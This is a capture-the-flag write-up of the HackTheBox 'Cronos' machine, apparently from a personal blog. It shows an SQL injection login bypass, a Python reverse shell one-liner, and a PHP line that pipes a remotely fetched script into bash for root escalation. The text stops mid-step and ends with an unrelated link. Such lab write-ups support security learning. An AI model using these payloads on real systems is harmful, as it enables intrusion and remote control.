 ```yaml
---
layout: post
title:	"Cronos Writeup"
date:	2018-09-20 03:00:00
categories:
    - writeups
tags:
    - ctf
    - boot2root
    - hackthebox
---
```

<head>
	<title> Cronos Writeup | HackTheBox </title>
</head>

![Screenshot]({{ site.baseurl }}/images/posts/2017/cronos/logo.png)

## i. Port Scan

![Screenshot]({{ site.baseurl }}/images/posts/2017/cronos/ports.png)

## ii. Enumeration

Navigating to the host in the browser:

![Screenshot]({{ site.baseurl }}/images/posts/2017/cronos/browser.png)

Default Apache page...

Running a gobuster:

![Screenshot]({{ site.baseurl }}/images/posts/2017/cronos/gobuster.png)

`No results...`

In the port scan, we saw DNS open. Let's see if we can find any information:

![Screenshot]({{ site.baseurl }}/images/posts/2017/cronos/nslookup.png)

We got a domain, `cronos.htb`

Let's add `cronos.htb` to our hosts file and attempt to browse to it:

![Screenshot]({{ site.baseurl }}/images/posts/2017/cronos/browser2.png)

Running a gobuster scan:

![Screenshot]({{ site.baseurl }}/images/posts/2017/cronos/gobuster2.png)

Viewing robots.txt:

![Screenshot]({{ site.baseurl }}/images/posts/2017/cronos/robots.png)

Once again, another dead end...

Let's attempt a zone transfer, and see what kind of information we get:

![Screenshot]({{ site.baseurl }}/images/posts/2017/cronos/zonetransfer.png)

`admin.cronos.htb` looks very promising...

After adding `admin.cronos.htb` to `/etc/hosts`, let's navigate to it:

![Screenshot]({{ site.baseurl }}/images/posts/2017/cronos/browser3.png)

A login page, lets attempt to bypass using SQLi...

`admin' or '1'='1`

~~~
https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/
~~~

![Screenshot]({{ site.baseurl }}/images/posts/2017/cronos/bypass.png)

Access granted.

Looks like we can run traceroute and see the output in the browser.

Let's see if it's vulnerable to command injection:

![Screenshot]({{ site.baseurl }}/images/posts/2017/cronos/commandinjection.png)

We have command injection!

To get a shell, I'm going to use a reverse shell python one-liner:

~~~
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
~~~

Looking at our listener:

![Screenshot]({{ site.baseurl }}/images/posts/2017/cronos/revshell.png)

## iii. Privilege Escalation

Based off the name of the machine, and after not having much luck enumerating, let's focus on cron.

Viewing `/etc/crontab`:

![Screenshot]({{ site.baseurl }}/images/posts/2017/cronos/crontab1.png)

The last line seems interesting... seems like artisan is being executed by root.

Let's look at the permissions of `/var/www/laravel/artisan`:

![Screenshot]({{ site.baseurl }}/images/posts/2017/cronos/artisan.png)

We own the file, and are able to write to it.

Editing artisan:


~~~
<?php
system('curl http://10.10.10.14/script.sh | bash')
?>

This will download the php reverse shell 











~~~
Sources / Links:
[0]: https://serverfault.com/questions/217654/difference-between-nt-authority-network-service-and-nt-authority-system
~~~



